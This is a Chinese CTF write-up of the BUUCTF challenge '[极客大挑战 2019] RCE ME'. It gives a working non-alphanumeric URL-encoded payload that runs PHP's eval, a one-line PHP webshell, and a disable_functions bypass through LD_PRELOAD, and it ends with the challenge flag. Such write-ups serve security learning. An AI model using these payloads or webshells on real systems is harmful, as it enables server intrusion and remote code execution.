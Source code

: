 ```yaml
---
title: 极客大挑战 2019 RCE ME
date: 2020-12-05 20:42:00
categories: ['CTF']
tags: ['Web','BUUCTF_Web','RCE','disable_function绕过']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120232544.png
---
```


# [极客大挑战 2019]RCE ME

源码：

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析一波，GET请求获得`code`，想要通过的话需要绕过两个检测：

1. payload长度小于40
2. 不能包含`a-z、A-Z、0-9`

和之前做过DMCTF里的一个不能用数字和字母构造payload一样，当时参考的博客是phith0n师傅的:[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，这次摸到了相关文章：[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)。

使用`url编码`+`~`取反构造不可见字符串，然后加上php7版本以后支持了使用：`($a)()`这样的方法动态执行函数，所以我们可以构造payload：`assert(eval($_POST[‘a’]))`

先构造`assert`：

```
echo urlencode(~'assert');

//结果：%9E%8C%8C%9A%8D%8B
```

再构造`eval($_POST['a'])`：

```
echo urlencode(~'eval($_POST[\'a\'])');

//结果：%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6
```

完整payload：

```
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6);
```

网站获得请求以后会进行url解码，由于是不可见字符可以绕过长度和正则表达式，之后执行代码时，前面的`~`取反再获得真正的函数名。

使用蚁剑连接，进后台在根目录找到了flag、readflag。打开flag内容为空，又打开readflag文件是一堆乱码，但是看到了文件头是`ELF`是linux的可执行文件。那么很有可能就是执行readflag才能获得flag，但是在终端执行时出现了一些问题：无论输入什么，终端都只会返回`ret=127`：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201403.png)

搜索了一波，原来是是**disable_function**搞的鬼，这个表可以在phpinfo()中查看：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201821.png)

因为`system`、`exec`、`shell_exec`等命令执行的函数都被禁止了，目前我理解的webshell就是通过这些函数才能在终端执行命令的，所以终端基本是个废的，所以就是寻找绕过**disable_function**的方法，网上有很多其他方法，其中一个方法：

**利用环境变量LD_PRELOAD来绕过**

> php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
> 
> LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

正好蚁剑的插件中就有一个名为：[as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)的插件，可以选择在插件市场安装或是手动安装（github有步骤）。安装以后右键shell选择加载插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234337.png)

插件的工作原理是自动上传几个绕过的文件，然后再用蚁剑连接上传的文件即可实现绕过，但是一开始的`/var/www/html`目录是没有上传权限的，我右键以后发现能修改权限，改成0777：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204190508.png)

> 在这里我还遇到了问题，使用原来的shell执行插件功能以后，终端还是没有权限，但是我尝试了自己又上传了一个一句话木马，用这个新的一句话木马执行插件才成功，具体原因我也不清楚，如果有师傅知道原因求告知。

上传一句话木马233.php：

```
<?php
@eval($_POST['b']);
```

再用一句话木马的shell执行插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204231514.png)

进入shell，目录下面多了一个名为**\.antproxy.php**的文件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234445.png)

再使用蚁剑连接**\.antproxy.php**，密码是运行插件的那个shell的密码，这时候就可以开开心心的去根目录下执行readflag获得flag辣。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204233847.png)

flag{a216900e-2427-48f7-9323-f65d0a3abdbf}
